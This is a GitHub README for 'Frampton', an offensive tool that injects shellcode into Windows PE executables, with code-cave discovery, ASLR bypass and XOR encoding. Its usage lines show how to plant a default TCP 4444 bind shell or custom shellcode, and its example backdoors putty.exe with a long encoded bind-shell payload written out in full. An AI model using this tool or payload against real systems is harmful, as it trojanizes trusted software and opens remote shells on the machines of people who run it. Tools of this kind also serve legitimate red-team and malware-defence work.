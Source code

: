 # Frampton
[![GitHub pull-requests](https://img.shields.io/github/issues-pr/ins1gn1a/Frampton.svg)](https://GitHub.com/ins1gn1a/Frampton/pull/)
[![GitHub contributors](https://img.shields.io/github/contributors/ins1gn1a/Frampton.svg)](https://GitHub.com/ins1gn1a/Frampton/graphs/contributors/)
![](https://img.shields.io/github/issues/ins1gn1a/Frampton)
![](https://img.shields.io/github/stars/ins1gn1a/Frampton)
![](https://img.shields.io/github/license/ins1gn1a/Frampton)
PE Binary Shellcode Injector - Automated code cave discovery, shellcode injection, ASLR bypass

## Install
`pip3 install -r requirements.txt`

## Usage
```
usage: frampton.py [-h] --file FILE [--shellcode SHELLCODE] [--output OUTFILE]
                   [--info] [--encoder] [--multi-encoder ENCODERMULTIPLE]

Frampton PE file Injector

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  Filename or path to base template PE file
  --shellcode SHELLCODE, -s SHELLCODE
                        Enter custom shellcode - architecture specific x86/x64
                        (optional) - Default: Windows x86 TCP 4444 Bind Shell
  --output OUTFILE, -o OUTFILE
                        Filename or path to new destination PE file (optional)
  --info, -i            Only display code cave information - does not inject
                        or modify (optional)
  --encoder, -e         Use built-in shellcode XOR encoder - x86 only
                        (optional)
  --multi-encoder ENCODERMULTIPLE, -m ENCODERMULTIPLE
                        Specify the number of auto-generated keys to encode
                        shellcode (optional)
```

#### Information Only (no injection)
```./frampton.py -f FILENAME.exe -i```

![Frampton Example](https://github.com/ins1gn1a/Frampton/blob/master/example2.png?raw=true)


#### Built-in basic bind shell (TCP 4444) 
```./frampton.py -f FILENAME.exe```

#### Built-in basic bind shell (TCP 4444) with XOR encoder
```./frampton.py -f FILENAME.exe -e```

#### Built-in basic bind shell (TCP 4444) with multiple XOR encoder
```./frampton.py -f FILENAME.exe -e -m 4```

#### Custom Shellcode Injector 
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE```

#### Custom Shellcode Injector with XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e```

#### Custom Shellcode Injector with multiple XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e -m 4```

## Example 

Encoding a 32-bit Putty PE file with Shikata_ga_nai encoding TCP bind shellcode, further encoding with 10 XOR keys.
```
./frampton.py -f putty.exe -e -m 10 -s "\xd9\xe8\xbd\xa0\xdb\xbd\x87\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x53\x83\xc0\x04\x31\x68\x13\x03\xc8\xc8\x5f\x72\xf4\x07\x1d\x7d\x04\xd8\x42\xf7\xe1\xe9\x42\x63\x62\x59\x73\xe7\x26\x56\xf8\xa5\xd2\xed\x8c\x61\xd5\x46\x3a\x54\xd8\x57\x17\xa4\x7b\xd4\x6a\xf9\x5b\xe5\xa4\x0c\x9a\x22\xd8\xfd\xce\xfb\x96\x50\xfe\x88\xe3\x68\x75\xc2\xe2\xe8\x6a\x93\x05\xd8\x3d\xaf\x5f\xfa\xbc\x7c\xd4\xb3\xa6\x61\xd1\x0a\x5d\x51\xad\x8c\xb7\xab\x4e\x22\xf6\x03\xbd\x3a\x3f\xa3\x5e\x49\x49\xd7\xe3\x4a\x8e\xa5\x3f\xde\x14\x0d\xcb\x78\xf0\xaf\x18\x1e\x73\xa3\xd5\x54\xdb\xa0\xe8\xb9\x50\xdc\x61\x3c\xb6\x54\x31\x1b\x12\x3c\xe1\x02\x03\x98\x44\x3a\x53\x43\x38\x9e\x18\x6e\x2d\x93\x43\xe7\x82\x9e\x7b\xf7\x8c\xa9\x08\xc5\x13\x02\x86\x65\xdb\x8c\x51\x89\xf6\x69\xcd\x74\xf9\x89\xc4\xb2\xad\xd9\x7e\x12\xce\xb1\x7e\x9b\x1b\x2f\x76\x3a\xf4\x52\x7b\xfc\xa4\xd2\xd3\x95\xae\xdc\x0c\x85\xd0\x36\x25\x2e\x2d\xb9\x58\xf3\xb8\x5f\x30\x1b\xed\xc8\xac\xd9\xca\xc0\x4b\x21\x39\x79\xfb\x6a\x2b\xbe\x04\x6b\x79\xe8\x92\xe0\x6e\x2c\x83\xf6\xba\x04\xd4\x61\x30\xc5\x97\x10\x45\xcc\x4f\xb0\xd4\x8b\x8f\xbf\xc4\x03\xd8\xe8\x3b\x5a\x8c\x04\x65\xf4\xb2\xd4\xf3\x3f\x76\x03\xc0\xbe\x77\xc6\x7c\xe5\x67\x1e\x7c\xa1\xd3\xce\x2b\x7f\x8d\xa8\x85\x31\x67\x63\x79\x98\xef\xf2\xb1\x1b\x69\xfb\x9f\xed\x95\x4a\x76\xa8\xaa\x63\x1e\x3c\xd3\x99\xbe\xc3\x0e\x1a\xce\x89\x12\x0b\x47\x54\xc7\x09\x0a\x67\x32\x4d\x33\xe4\xb6\x2e\xc0\xf4\xb3\x2b\x8c\xb2\x28\x46\x9d\x56\x4e\xf5\x9e\x72"
```
![Frampton Example](https://github.com/ins1gn1a/Frampton/blob/master/example.png?raw=true)
